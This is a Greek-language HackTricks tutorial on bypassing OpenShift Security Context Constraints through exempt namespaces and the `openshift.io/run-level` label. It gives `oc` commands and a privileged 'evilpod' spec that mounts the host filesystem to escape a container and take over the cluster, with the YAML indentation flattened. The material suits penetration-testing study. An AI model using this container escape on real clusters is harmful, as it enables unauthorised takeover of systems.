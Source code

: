 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Από προεπιλογή, το SCC δεν εφαρμόζεται στα παρακάτω έργα:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Εάν αναπτύξετε pods μέσα σε ένα από αυτά τα namespaces, δεν θα επιβληθεί κανένα SCC, επιτρέποντας την ανάπτυξη privileged pods ή την προσάρτηση του συστήματος αρχείων του host.

## Namespace Label

Υπάρχει τρόπος να απενεργοποιήσετε την εφαρμογή SCC στο pod σας σύμφωνα με την τεκμηρίωση της RedHat. Θα χρειαστεί να έχετε τουλάχιστον μία από τις παρακάτω άδειες:

- Δημιουργία Namespace και Δημιουργία Pod σε αυτό το Namespace
- Επεξεργασία Namespace και Δημιουργία Pod σε αυτό το Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Η συγκεκριμένη ετικέτα `openshift.io/run-level` επιτρέπει στους χρήστες να παρακάμπτουν τα SCC για εφαρμογές. Σύμφωνα με την τεκμηρίωση της RedHat, όταν αυτή η ετικέτα χρησιμοποιείται, δεν επιβάλλονται SCC σε όλα τα pods μέσα σε αυτό το namespace, αφαιρώντας αποτελεσματικά οποιουσδήποτε περιορισμούς.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Προσθήκη Ετικέτας

Για να προσθέσετε την ετικέτα στο namespace σας:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Για να δημιουργήσετε ένα namespace με την ετικέτα μέσω ενός αρχείου YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Τώρα, όλα τα νέα pods που δημιουργούνται στο namespace δεν θα έχουν κανένα SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Ελλείψει SCC, δεν υπάρχουν περιορισμοί στον ορισμό του pod σας. Αυτό σημαίνει ότι μπορεί να δημιουργηθεί εύκολα ένα κακόβουλο pod για να διαφύγει στο σύστημα φιλοξενίας.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Τώρα, έχει γίνει πιο εύκολο να κλιμακώσετε τα δικαιώματα για να αποκτήσετε πρόσβαση στο σύστημα φιλοξενίας και στη συνέχεια να αναλάβετε ολόκληρο το cluster, αποκτώντας δικαιώματα 'cluster-admin'. Αναζητήστε το μέρος **Node-Post Exploitation** στην παρακάτω σελίδα:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Προσαρμοσμένες ετικέτες

Επιπλέον, με βάση τη ρύθμιση στόχου, ορισμένες προσαρμοσμένες ετικέτες / αναφορές μπορεί να χρησιμοποιηθούν με τον ίδιο τρόπο όπως το προηγούμενο σενάριο επίθεσης. Ακόμα και αν δεν είναι φτιαγμένες για αυτό, οι ετικέτες θα μπορούσαν να χρησιμοποιηθούν για να δώσουν δικαιώματα, να περιορίσουν ή όχι μια συγκεκριμένη πηγή.

Προσπαθήστε να αναζητήσετε προσαρμοσμένες ετικέτες αν μπορείτε να διαβάσετε κάποιες πηγές. Εδώ είναι μια λίστα με ενδιαφέρουσες πηγές:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Λίστα όλων των προνομιακών namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Προχωρημένη εκμετάλλευση

Στο OpenShift, όπως αποδείχθηκε νωρίτερα, η κατοχή άδειας για την ανάπτυξη ενός pod σε ένα namespace με την ετικέτα `openshift.io/run-level` μπορεί να οδηγήσει σε μια απλή κατάληψη του cluster. Από την προοπτική των ρυθμίσεων του cluster, αυτή η λειτουργία **δεν μπορεί να απενεργοποιηθεί**, καθώς είναι εγγενής στο σχεδιασμό του OpenShift.

Ωστόσο, μέτρα μετριασμού όπως το **Open Policy Agent GateKeeper** μπορούν να αποτρέψουν τους χρήστες από το να ορίσουν αυτή την ετικέτα.

Για να παρακάμψουν τους κανόνες του GateKeeper και να ορίσουν αυτή την ετικέτα για να εκτελέσουν μια κατάληψη του cluster, **οι επιτιθέμενοι θα χρειαστεί να εντοπίσουν εναλλακτικές μεθόδους.**

## Αναφορές

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
